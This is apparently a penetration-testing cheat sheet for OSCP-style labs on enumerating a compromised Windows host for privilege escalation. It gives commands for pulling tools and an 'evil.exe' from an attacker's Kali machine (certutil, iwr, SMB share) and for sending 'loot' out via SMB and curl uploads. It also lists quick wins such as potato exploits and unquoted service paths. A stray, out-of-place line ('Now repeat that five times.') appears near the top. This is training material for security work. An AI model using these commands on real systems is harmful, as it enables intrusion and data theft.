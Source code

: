 # Windows Enumeration 

I will do **Manual Enumeration** before running WinPEAS. 

Now repeat that five times.

Many OSCP boxes are designed in a way where WinPEAS will not pick the PE up. But still run it once you are done with the checks below.

I assumed you got some kind of shell on a Windows host. If it is a shell from a webshell, try upgrading to a more stable shell by popping one with nc.exe (which you need to transfer from your kali) or a msfvenom payload.

## How to transfer files from Kali to Windows

Navigate to your tools folders and run the following (I like port 80 since it is highly likely that the target box will not have port 80 blocked)

```bash
python -m http.server 80
```

Back on your target box, navigate to a folder that you should have write and execute access.

I like using C:\Users\Public or if you land a shell as a user, you can use that user's directory.

```cmd
certutil.exe -urlcache -split -f http://<kali ip>/<file you want to transfer> <outputfilename>
```

The powershell equivalent is:

```powershell
iwr -uri http://<kali ip>:<port>/<file> -OutFile <outfile name>
```

Another fun way of doing it creating a smbshare on kali and then mounting it. This allows for bidrectional data transfers so you can exfiltrate files out of the target.

```bash
# on your kali
# your share name can be anything you like. If you want the cwd to be the share path, you can just put . I usually set up with a username and password as sometimes Windows does not allow you to mount an authentication-less share

impacket-smbserver -smb2support <share name> <local share path> -username kali -password kali

# example. This creates a share called exfil with the path being the directory where impacket-smbserver is being run

impacket-smbserver -smb2support exfil . -username kali -password kali

```

On your windows machine

```cmd
# mounts your exfil share on y drive and pass in kali:kali credentials

net use y: \\<kali ip>\exfil kali /user:kali
```
now you can copy files to and fro
```cmd
#copy loot.txt from target to your kali

copy loot.txt \\<kali ip>\exfil\loot.txt
```
copy evil.exe from kali to your target
```cmd
copy \\<kali ip>\exfil\evil.exe evil.exe
```

## Transferring files from Windows to Kali

If you need to upload a file back to your Kali machine, you can either opt for the SMB method above or use a python [upload server](https://pypi.org/project/uploadserver/) (requires python 3.9 and above).
It also has a GUI interface if you browse to the page

Install on your Kali machine using
```bash
pip install uploadserver
```

Depending on how python is configured on your machine, you might need to use `python3` instead
```bash
python -m uploadserver
```

The default port for uploadserver is 8000, but it can be set in the same manner as http.server by indicating the port number :
```bash
python -m uploadserver 4444
```

Upload with curl using the compromised machine (can also be used in Linux)
```powershell
curl -X POST http://192.168.100.200:8000/upload -F 'files=@suspicious_file.txt'
```

The file will be uploaded to the directory where you ran the `uploadserver` module
## Checking for the Quick Wins

Check the following:

1) Privileges and groups for your current user

- If SeImpersonatePrivilege is there, thank your lucky stars. Check the system arch with systeminfo and then upload the relevant potato exploit to elevate

- If SeShutDownPrivilege is there, note it down. Your PE path may involve service or scheduled task manipulation.

- Dont worry if it says disabled. The more important thing is that the Privilege is there.

- For groups, you are checking for any non default windows groups. Could be something like HelpDesk. Note things like 'Remote Management Users' (WinRM), 'Remote Desktop Users' (RDP) or the easy win 'Backup Operators'.

- If your user is part of 'BackUp Operators', your user can back up and restore all files on a computer, regardless of the permissions that protect those files. Backup Operators also can log on to and shut down the computer.

```cmd
whoami /priv

whoami /groups
```

2) Environment Variables. Sometimes there are hardcoded stuff like creds in your env so give it a quick check

```cmd
SET
```

3) Systeminfo

- Check the OS version and note the patches. If it looks ancient like Windows 7 or Windows Server 2012 or earlier, a kernel exploit like EternalBlue might be the solution. That said, I wont expect to see this in OSCP though you may see it for PG boxes. 

```cmd
systeminfo
```

4) Check the C:\Users directory. This helps you enumerate users and see (or not see) what access you have to their folders as the current user. 

- Note down any files that look out of place and exfiltrate them if required.

```cmd

cd C:\Users

tree /f /a  #this lists the current path in a recursive manner and also reveals hidden files and directories. This is a GREAT command. use this often

```

5) Now check the C:\ root directory. See anything that is NOT Users,Windows,Program Files, Program Files (x86)? *P.S you can safely ignore output.txt. That seems to be some kind of logging for OffSec boxes*

- If there is, investigate the folder. Are there files inside? Can you write into that folder? Can you edit the files? Can you see the contents of the files?

6) If there is a webserver on the host, can you find the root of that webserver and check for config files? 

7) Are there local services? *You can ignore port 53 if you see it* If there are, note it down. If it looks interesting, transfer a ligolo agent and set it up for you to access the local service. 

```cmd
netstat -ano

# On Powershell

Get-Process <PID of interest from the netstat>

```

8) Check for Scheduled Tasks

Not always effective because your current user may not have permissions to view higher access level scheduled tasks so this may not return anything useful. Still no harm taking a quick look at it

```cmd
schtasks /query /fo LIST /v
```

This will output a lot of things. But the relevant stuff will be right at the top. The rest are default stuff. If you dont see anything interesting, it may be that there is nothing there or there is something there that is being run by a higher-priv user and you just dont have the rights to see it.

9) Check for unquoted Service Paths

We can use this when we can write to a service's main or subdirectory but cannot replace files

- Each service maps to an exe file that will be run when the service is started

- the vulnerability lies in paths to the exe where there is one or more spaces and is not enclosed within quotes

- When a service is started and a process is created, the CreateProcess function is used.  The function starts interpreting the path from left to right until it reaches a space and then it appends .exe and the rest is treated as arguments

```cmd
wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """

# if you find any services that dont look like default services (you need to do more boxes and then you will know what is not normal)
# check if our current user can start, stop or restart the service (might still throw an error when the command works)

Start-Service SusService

Stop-Service SusService

Restart-Service SusService
```

Well that is about it. If there is nothing so far, it is likely to be related to services or scheduled tasks or some sensitive file buried in the filesystem which winpeas can do for you.
